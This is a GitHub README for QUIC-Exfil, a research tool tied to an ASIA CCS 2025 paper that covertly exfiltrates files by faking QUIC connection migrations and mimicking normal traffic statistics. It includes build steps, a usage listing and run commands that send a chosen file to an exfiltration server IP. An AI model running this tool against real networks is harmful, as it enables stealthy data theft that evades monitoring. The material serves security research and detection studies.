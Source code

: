 # quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.

![Rust build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/rust.yml/badge.svg)
![Docker build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/docker-image.yml/badge.svg)
![Crates.io](https://img.shields.io/crates/d/quic-exfil?style=plastic)
![Libraries.io dependency status for GitHub repo](https://img.shields.io/librariesio/github/thomasgruebl/quic-exfil?style=plastic)
![GitHub last commit](https://img.shields.io/github/last-commit/thomasgruebl/quic-exfil?style=plastic)
![GitHub](https://img.shields.io/github/license/thomasgruebl/quic-exfil?style=plastic)
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/stargazers">
<img src="https://img.shields.io/github/stars/thomasgruebl/quic-exfil.svg?style=plastic" alt="Stars">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/fork">
<img src="https://img.shields.io/github/forks/thomasgruebl/quic-exfil.svg?style=plastic" alt="Forks">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/issues">
<img src="https://img.shields.io/github/issues/thomasgruebl/quic-exfil.svg?style=plastic" alt="Issues">
</a>



<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ul>
  <li><a href="#introduction">Introduction</a></li>
  <li><a href="#dependencies">Dependencies</a></li>
  <li><a href="#build">Build</a></li>
  <li><a href="#run">Run</a></li>
  <li><a href="#testbed">Experimental Testbed</a></li>
  <li><a href="#citation">Citation</a></li>
  <li><a href="#license">License</a></li>
  </ul>
</details>


## Introduction

QUIC-Exfil exploits the fact that QUIC allows changes in the underlying IP header, without requiring a new handshake. Therefore, from the perspective of an on-path observer, QUIC connection migrations are difficult to differentiate from potentially malicious traffic. If an adversary monitors the statistical properties of the QUIC traffic within a network, he/she can almost perfectly replicate the observable features of QUIC traffic.

The following figure depicts a QUIC-Exfil client-side Wireshark trace (without the required server-side acknowledgments). The second packet in the trace (highlighted in blue) represents the mimicked server-side connection migration to a new destination IP address, followed by various exfiltration payload packets. For illustration purposes, the exfiltration packets retain the same DCID as from the hijacked connection (packet #1). The inter-arrival times (i.e., time deltas) between the outgoing QUIC packets, as well as the payload sizes of the connection migration packet and the "normal" QUIC packets are sampled from a distribution of previously observed packets for the QUIC connection with DCID 29a3de9a9c2063bd0f65b34637234ece7cf876fa. Furthermore, the exfiltration payloads are encrypted using AES-256-CBC to match the entropy of typical encrypted traffic. This reduces the observable differences in legitimate QUIC traffic as compared to malicious exfiltration traffic.

![Alt text](images/wireshark.png "pcap_sample")


## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```


## Build

```sh
cargo build --release
```

## Run

```sh
sudo ./target/release/quic-exfil
```

```sh
Usage: quic-exfil [OPTIONS]

Options:
  -i, --interface <INTERFACE>  Network interface name [default: en1]
  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
  -p, --port <PORT>            Exfiltration server destination port [default: 443]
  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
  -h, --help                   Print help
  -V, --version                Print version

```



## Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).

Running the benign QUIC server on the Host VM:

The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.


## Citation

If you intend to use QUIC-Exfil, please cite the following publication:

--preliminary--

```text
@inproceedings{10.1145/3708821.3733872,
author = {Gr\"{u}bl, Thomas and Niu, Weijie and von der Assen, Jan and Stiller, Burkhard},
title = {QUIC-Exfil: Exploiting QUIC’s Server Preferred Address Feature to Perform Data Exfiltration Attacks},
year = {2025},
isbn = {798400714108},
publisher = {Association for Computing Machinery},
address = {New York, NY, USA},
url = {https://doi.org/10.1145/3708821.3733872},
doi = {10.1145/3708821.3733872},
booktitle = {Proceedings of the 20th ACM Asia Conference on Computer and Communications Security},
pages = {XXX–YYY},
numpages = {14},
keywords = {QUIC, Network Security, Data Exfiltration, Anomaly Detection},
location = {Hanoi, Vietnam},
series = {ASIA CCS '25}
}
```




## License

Distributed under the `GNU General Public License v3.0` License. See
[`LICENSE`](<https://github.com/thomasgruebl/quic-exfil/tree/main/LICENSE>)
for more information.